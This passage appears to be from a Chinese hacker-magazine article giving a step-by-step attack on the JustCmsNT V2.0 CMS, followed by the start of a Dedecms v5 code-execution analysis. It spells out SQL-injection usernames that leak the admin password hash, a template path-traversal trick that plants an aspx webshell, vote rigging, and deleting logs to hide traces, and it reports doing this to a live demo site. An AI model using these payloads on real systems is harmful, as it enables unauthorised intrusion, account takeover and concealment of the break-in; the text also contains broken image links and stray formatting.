































```

这条语句的作用是统计 test 用户未读短消息中标题为管理员（admin）后台密码（MD5 码）第1位字符的短消息数。我们知道 MD5 码每位字符取值无外乎“0~9”或“a~f”，共16个。我们给自己发送短消息，要求标题为“1”的1条，“9”的9条，“a”的10条……“f”的15条，这样一共要发 1+2+……+15=120 条！够辛苦的吧！更讨厌的是，捷派要求等待几十秒的时间方可继续发送！可是想想 adminpass 在向我们招手，这点苦又算得了什么呢？

我们用 test 登录，在新窗口中打开“发送新的短消息”页面，如图15所示。使用“F5”重复发送短消息！当达到要求的个数后使用“后退”键（键盘为“BackSpace”）修改标题后，继续！如图16，直到全部发完 120 条！
图15
图16

然后注册用户 `test' and Title=(select mid(adminpass,1,1) from jt_member where memberid='admin') and '1'='1`，进入“用户控制面板”，由“新的短消息”数便可得出 adminpass 的第1个字符！如图17所示。再将用户名中的 `mid(adminpass,1,1)` 改为 `mid(adminpass,2,1)` 可得出 adminpass 的第2个字符！
图17
图18

有意思的是，当我们请求“会员中心首页”时，捷派会用女声友好地提醒我们“你有新的短消息”，哈哈，殊不知这时的新短消息已经为我所用了！由于捷派后台采用 Session 验证，所以得到 MD5 后就必须爆破！

之所以要发送这么多短消息，是为了减少注册次数，因为短消息一般不会引起管理员的注意，这样我们再只需注册16次（adminpass 的长度）就可以得到密码。如果直接注册 `test' and (select mid(adminpass,1,1) from jt_member where memberid='admin') between '0' and '9' and '1'='1` 进行手工注入不是不可以，但这需要注册大量用户，极易引起管理员注意！还是不用为好！

- 利用2：页面 MemberRegInside.aspx（由首页的“用户注册”按钮便可打开）注册用户时，未判断用户名是否存在（而 Member/Member_Reg.aspx 无此漏洞），导致可以直接（无需进行外部提交！）注册“admin”（管理员名）用户名，而且注册成功后进入（务必！）用户控制面板时，将是 admin 身份，可以查看、删除 admin 的短消息等，详细分析略。

- 利用3：刷票。如前所述，如果我们注册 `test' and '1'='2` 用户，登录后就可以随意投票了，这样捷派试图限制同一用户重复投票就形同虚设了！

- 利用4：后台写马。不得不承认，捷派.net V2.0 对后台挂马作了充分的考虑，写配置到 config/*.config 文件，直接备份数据库为 Bak 文件。虽然未修改上传的文件名，但插入二进制 00 失败；过滤路径中的“.”，无法跨目录浏览。虽然后台可以设置上传文件的类型，但这根本就不起作用，允许上传的文件类型直接给定！如图18所示。

山穷水尽时，在后台发现一处可以写 aspx 文件的页面，进入“风格插件管理->单页模板设置”，选择“添加新页面”。然后在“新窗口中打开”对该模板进行“修改”，如图19、图20所示。
图19
图20

新添加的单页模板是将 Template 目录中的“Default/关于我们.html”文件内容写（未作任何限制！）到 Just.aspx 中。既没有限制“使用模板”栏中的文件类型（比如只限制为 html 文件），也没有对模板文件的类型进行有效地验证（比如验证是否为有效的 html 文件）。我们将 aspx 木马文件扩展名改为任意可以上传的类型，比如 rar，首先通过上传，比如“发布新的软件”，上传后文件名为 `Upfile/file/evilspy.rar`。我们再将“使用模板”栏（此处未过滤“..”，可以跨目录）的文件名改为“../上传的文件名”，就可以写马了！

件路径中的“/”不能写成“\”，否则会出错。虽然页面中的“使用模板”输入栏不可修改，但是我们可以另存页面后进行提交！另存后需要修改两处，具体如下。

- 1. 修改 FORM 中 `action` 的值，`PageID` 值应与刚添加的单页模板的 `PageID` 一致：`http://127.0.0.1/Admin/Admin_PageSetting.aspx?type=edit&PageID=18`
- 2. 删除“使用模板”输入栏的 `readOnly` 属性。

之后“保存数据”便可在网站的根目录生成 `Just.aspx` 木马文件了，如图21所示，“目标文件名”可以根据自己需要修改。
图21

到这里，捷派.net V2.0 便在我们的掌控之中了！最后就剩下抹去痕迹了，删除新添加的模板，删除发送的短消息以及注入时新注册的用户名，再删除网站日志（捷派后台无法删除，需要借助 `aspx` 木马）等等。

# 实测

在百度中搜索“Powered By JustCmsNT v2.0”，好在目前使用此版本的网站不是很多，我们就选择“电信演示站”（`http://demo2.just4.cn/`）进行测试吧。捷派官方网站尽管首页没有提供注册用户的链接，但在 IE 地址栏直接输入注册页面链接（`http://www.just4.cn/member/member_reg.aspx`）就可以打开注册页面了，应该存在注入，实测就免了吧，做人还是要厚道点嘛。

该演示站点首页提供的注册链接无法正常注册，于是我直接打开 `http://demo2.just4.cn/member/member_reg.aspx`，“源文件”代码另存为 `member_reg.html` 文件，做如下修改。

- 1. `Form` 中 `action` 属性的值改为 `http://demo2.just4.cn/member/member_reg.aspx`
- 2. 删除“立即注册”按钮的 `onclick` 事件。

再打开 `member_reg.html` 注册 `test` 用户，注册成功后，网站首页会显示出新入会会员名，所以接下来的操作要一气呵成！然后登录进入 `test` 用户控制面板，给自己发送短消息！这是个比较枯燥的过程，品品茶，听听音乐，聊聊天什么的，不时记得“F5”一下，你会觉得发送 120 条短消息并不是那么漫长的！

激动人心的时刻就要来临了！接着连续注册 16 个“非法”用户，呵呵！记得一定要一气呵成，如图22、图23和图24。
图22
图23
图24

本该继续下去，不过咋这么眼熟呢？“469......”，该不是“469e80d32c0559f8”——“admin888”——后台默认密码！试试吧！耶，差点没吐血！成功进入后台！如图25所示。
已经知道 admin 的密码，那就赶紧删除我们注册的“非法”用户吧，包括 test 及 120 条短消息！

那么接下来就是进入后台试试写马了。新窗口打开“单页模板设置”（http://demo2.just4.cn/Admin/Admin_PageSetting.aspx），将“添加新页面”的源码（此页面不允许直接“另存为”）另存为 Admin_PageSetting.html 文件，修改如下：

- 1. 修改 FORM 中 action 的值改为“http://demo2.just4.cn/Admin/Admin_PageSetting.aspx”。
- 2. 删除“使用模板”输入栏的 `readonly="readonly"` 属性。

打开后添加新模板，如图26所示（上传修改了扩展名的 aspx 木马文件的过程略）。当提示添加页面成功时，我们便写马成功了！如图27和图28所示。

至于如何利用 aspx 木马进一步提权，就是后话了。对捷派.net V2.0 的检测就此打住，以免有愧于捷派的侠义心肠，呵呵。好在此版本最新发布，目前采用的网站不是很多，到此风波，也算是对自己、对大家的一种负责吧。

前置知识：PHP  
关键词：脚本、PHP语言、织梦系统
## Dedecms v5 又一个任意代码执行漏洞

文／图 Flyh4t

自织梦内容管理系统（dedecms）v5 发布以来，陆续被发现了注射、跨站等漏洞，其实这个 CMS 还有更严重的漏洞。由于代码上的缺陷，普通用户可以直接将代码写入 PHP 文件到服务器来执行。上个月官方网站已经修补了一个这样的漏洞，但还有另外一个类似的没有修补。

dedecms5 增加了一些新的功能，连载就是其中一个。普通用户可以建立一个图书，并且按照章节将内容写到服务器上，但其写入的文件类型是 PHP，且对内容过滤得不是很严格，这样我们就可以将 PHP 代码写入并执行。下面我们就来具体分析一下这个漏洞。

首先看文件 `\include\inc_bookfunctions.php` 中的函数 `WriteBookText` 的代码。

```php
function WriteBookText($cid,$body)
{
    global $cfg_cmspath,$cfg_basedir;
    $ipath = $cfg_cmspath.'/data/textdata';
    // 保存文件的目录
    $tpath = ceil($cid/5000);
    if(!is_dir($cfg_basedir.$ipath)) MkdirAll($cfg_basedir.$ipath,$GLOBALS['cfg_dir_purview']);
    if(!is_dir($cfg_basedir.$ipath.'/'.$tpath)) MkdirAll($cfg_basedir.$ipath.'/'.$tpath,$GLOBALS['cfg_dir_purview']);
    $bookfile = $cfg_basedir.$ipath.'/{$tpath}/bk{$cid}.php';
    $body = "<?php\r\n".$body."\r\n?>";
    // 要写入文件的内容
    @$fp = fopen($bookfile,'w');
    @flock($fp);
    @fwrite($fp,$body); // 写入文件
    @fclose($fp);
}
```

我们来看看系统是如何调用这个函数的，再看下面的代码。

```php
\member\story_add_content_action.php

$inQuery = ""
. "INSERT INTO `#@__story_content`(`title`,`bookname`,`chapterid`,`catid`,`bcatid`,`bookid`,`booktype`,`sortid`,`memberid`,`bigpic`,`body`,`addtime`,`adminid`)"
. " VALUES ('$title','$bookname','$chapterid','$catid','$bcatid','$bookid','$booktype','$sortid','$cfg_ml->M_ID','','','$addtime','0');";

if(!$dsql->ExecuteNoneQuery($inQuery)){
    ShowMsg("把数据保存到数据库时出错，请检查！".$dsql->GetError().$inQuery,"-1");
    $dsql->Close();
    exit();
}
// 先将相关文章信息写入数据库
$arcID = $dsql->GetLastID();
WriteBookText($arcID,addslashes($body));





